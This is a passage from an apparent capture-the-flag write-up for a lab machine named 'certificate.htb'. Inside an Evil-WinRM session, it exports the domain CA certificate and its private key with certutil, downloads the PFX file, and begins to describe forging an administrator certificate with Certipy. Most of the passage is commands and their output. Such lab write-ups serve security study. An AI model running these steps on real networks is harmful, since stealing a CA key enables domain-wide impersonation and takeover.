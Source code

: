 ```
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 

```
Export the CA certificate (identified by its serial number) from the My store as a PFX file:

```
certutil -exportpfx my "75b2f4bbf31f108945147b466131bdca" ca_exported.pfx
```

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportpfx my "75b2f4bbf31f108945147b466131bdca" ca_exported.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file ca_exported.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
```
```
download ca_exported.pfx
```
```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> download ca_exported.pfx
                                        
Info: Downloading C:\Users\Ryan.K\Documents\ca_exported.pfx to ca_exported.pfx
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 

```

Use Certipy to forge a certificate with the UPN of a high-privileged user (e.g., administrator@certificate.htb):
